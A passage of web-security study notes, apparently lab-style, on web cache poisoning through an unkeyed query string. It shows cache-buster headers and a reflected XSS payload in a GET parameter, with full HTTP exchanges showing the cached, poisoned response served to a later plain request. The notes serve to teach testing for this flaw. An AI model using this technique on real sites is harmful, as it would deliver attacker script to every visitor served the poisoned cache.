 ## Unkeyed query string

There are alterantive ways of adding a cache buster, such as adding it to a keyed header. Some examples:

```
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```

If you use `Param Miner`, you can also select the options `Add static/dynamic cache buster` and `Include cache busters in headers`. It will then automatically add a cache buster to commonly keyed headers in any requests that you send using Burp's manual testing tools. 

Finally we just need to add arbitrary GET parameters and see if they are reflected, if there are reflected and it's not part of que cache key we can inject them.

```
GET /?cb='/><script>alert(1)</script><' HTTP/2
Host: vulnerable-website.com


HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 8397

<!DOCTYPE html>
<html>
    <head>
        <link rel="canonical" href='//vulnerable-website.com/?cb='/><script>alert(1)</script><''/>
```

```
GET / HTTP/2
Host: vulnerable-website.com


HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 20
X-Cache: hit
Content-Length: 8397

<!DOCTYPE html>
<html>
    <head>
        <link rel="canonical" href='//vulnerable-website.com/?cb='/><script>alert(1)</script><''/>
```
